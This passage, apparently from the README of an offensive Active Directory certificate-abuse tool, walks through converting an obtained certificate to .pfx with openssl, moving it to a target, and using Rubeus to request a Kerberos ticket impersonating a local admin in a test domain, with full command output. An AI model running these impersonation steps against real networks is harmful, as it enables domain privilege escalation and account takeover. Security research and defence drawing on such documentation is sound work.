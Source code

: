 
 [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



 Certify completed in 0004.2127911


Copy the ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` section to a file on Linux/macOS, and run the openssl command to convert it to a .pfx. When prompted, don't enter a password:

 (base) laptop:~ harmj0y$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
 Enter Export Password:
 Verifying - Enter Export Password:
 (base) laptop:~ harmj0y$


Finally, move the cert.pfx to your target machine filesystem (manually or through Cobalt Strike), and request a TGT for the `altname` user using Rubeus:

 C:\Temp>Rubeus.exe asktgt /user:localadmin /certificate\Temp\cert.pfx

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.6.1

 [*] Action: Ask TGT

 [*] Using PKINIT with etype rc4_hmac and subject: CN=harmj0y, OU=TestOU, DC=theshire, DC=local
 [*] Building AS-REQ (w/ PKINIT preauth) for: 'theshire.local\localadmin'
 [+] TGT request successful!
 [*] base64(ticket.kirbi):

 doIFujCCBbagAwIBBaEDAgEWooIExzCC...(snip)...

 ServiceName : krbtgt/theshire.local
 ServiceRealm : THESHIRE.LOCAL
 UserName : localadmin
 UserRealm : THESHIRE.LOCAL
 StartTime : 2/22/2021 251 PM
 EndTime : 2/22/2021 351 PM
 RenewTill : 3/1/2021 251 PM
 Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
 KeyType : rc4_hmac
 Base64(key) : Etb5WPFWeMbsZr2+FQQQMw==


## Defensive Considerations
